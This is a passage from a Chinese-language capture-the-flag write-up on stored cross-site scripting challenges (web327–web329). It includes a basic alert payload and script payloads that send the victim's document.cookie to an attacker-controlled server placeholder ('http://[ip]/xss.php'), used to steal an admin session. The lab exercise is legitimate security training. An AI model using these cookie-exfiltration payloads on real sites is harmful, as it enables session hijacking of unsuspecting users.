

iframe标签也被过滤了

剩下的符号我感觉跟payload暂时没什么关系，就不测了

# 存储型xss

## web327

这次是开始存储型xss了



是一个写信的界面，因为我们写入的信会存储到服务器数据库中，所以我们可以把恶意代码存入数据库中，当用户浏览我们的信封时候就会执行xss代码，我们可以先做个测试

上面已经对存储型xss进行了一定的了解，这里就直接开始测试

```
<script>alert('xss')</script>
```

往信封中插入这条最简单的语句



然后发现发送不了，然后我们看一下cookie发现也是需要admin权限，所以我们这封信应该发给admin，有思路了那就拿之前的payload放进去



发现上传成功，等待后台admin查阅信封就行，差不多几秒钟就可以了



就可以拿到flag了

什么原理呢?因为我们的flag是来自于admin的cookie，所以我们需要让admin去访问链接执行这个xss代码，假设我们信封发给别人的话，信封会存储在数据库中，这个信封admin是不一定能接收到的，就比如我们通过qq邮箱向我们亲爱的舍友发送一个带有xss语句的恶意链接，这个信封只是发给你舍友，只有他当这个冤大头去点击这个链接，同理就可以知道为什么是发给admin了

## web328

是一个登录界面



尝试用admin和弱密码登录一下



可以看到这里是登录失败了，那我们用admin注册一下



显示不是admin，emmm那我们先随机注册一个，注册成功后登录



但是也没啥东西，我们看一下用户管理



显示还是需要管理员身份，这时候我们就有方向了，我们可以通过获取管理员的cookie，伪造管理员的身份去访问，这样就可以看到用户管理的界面了，或者另一个思路，也就是预期解，因为这里可以看到一个包含用户名和密码的数据库，所以我们通过注入xss语句在数据库中，当管理员访问的时候会让xss语句解析执行

### 预期解:

注册界面，在用户或者密码那里填入xss语句都行

```html
<body onload="document.location.href='http://[ip]/xss.php?xss='+document.cookie"></body>
```

但是后来发现body用不了，那我们换成script试试

```
<script>document.location.href="http://[ip]/xss.php?cookie="+document.cookie</script>
```

上传后等一下，就可以在我们的服务器看到cookie.txt



这个应该就是admin的cookie了，在页面中修改cookie的值，然后刷新一下页面，发现页面一闪而过就没了



这个应该是抓到包才能看到回显了，那我们重新刷新网页然后抓包改cookie看看



为啥这里看不到内容呢?后来我看了官方的wp，官方是重启了js，但我这里重启了也不得行，那就只能跳过这道题了

## web329


